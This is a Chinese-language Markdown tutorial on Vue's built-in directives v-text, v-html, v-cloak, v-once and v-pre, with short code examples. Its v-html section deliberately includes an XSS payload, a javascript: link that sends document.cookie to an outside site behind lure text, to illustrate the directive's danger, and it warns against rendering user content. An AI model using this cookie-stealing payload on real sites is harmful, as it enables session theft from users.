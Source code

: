 ```yaml
---
description: 内置指令
autoPrev: filter
---
```


# 内置指令

在Vue中提供了一些对于页面 + 数据的更为方便的输出，这些操作就叫做指令，以`v-xx` 表示。

我们上面文章用到的 `v-if`，`v-show`，`v-on` 等都属于内置指令，接下来继续介绍其他常用的内置指令。

### v-text

```html
<div id="root">
  <div v-text="name"></div>
</div>
```

```js
<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'Hello Vue'
    }
  })
</script>
```
和插值语法`{{}}` 有点类似，但是 `v-text` 会替换掉节点中的内容，而`{{xx}}` 不会

### v-html

向指定节点中渲染包含html结构的内容。

```html
<div id="root">
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>
```

```js
<script type="text/javascript">
		new Vue({
			el:'#root',
			data:{
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
```

**<font color='red'>注意</font>**：

v-html有安全性问题！！！！

在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。

一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！


### v-vloak

 v-cloak 指令设置样式，这些样式会在 Vue 实例编译结束时，从绑定的 HTML 元素上被移除。

当网络较慢，网页还在加载 Vue.js ，而导致 Vue 来不及渲染，这时页面就会显示出 Vue 源代码。我们可以使用 `v-cloak` 指令来解决这一问题。

```html
<div id="root">
  <h2 v-cloak>{{name}}</h2>
</div>
```

```js
<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'Hello'
    }
  })
</script>
```
如果不加 `v-cloak` 在网速慢的情况下，会显示 `{{name}}`，之后才会渲染。

### v-once

v-once这个指令不需要任何表达式，它的作用就是定义它的元素或组件只会渲染一次，包括元素或者组件的所有字节点。首次渲染后，不再随着数据的改变而重新渲染。也就是说使用 `v-once`，那么该块都将被视为静态内容。

```html
<div id="root">
  <h2 v-once>初始化的n值是:{{n}}</h2>
  <h2>当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>
```

```js
<script type="text/javascript"> 
  new Vue({
    el:'#root',
    data:{
      n:1
    }
  })
</script>
```

点击按钮没使用 `v-once` 的会发生改变，使用 `v-once` 的不会发生改变。

### v-pre

`v-pre` 跳过其所在节点的编译过程
```html
<div id="root">
  <h2 v-pre>当前的n值是:{{n}}</h2>
  <h2 >当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>
```

```js
<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      n:1
    }
  })
</script>
```
使用 `v-pre` 的标签里面的插值表达式就失效了。


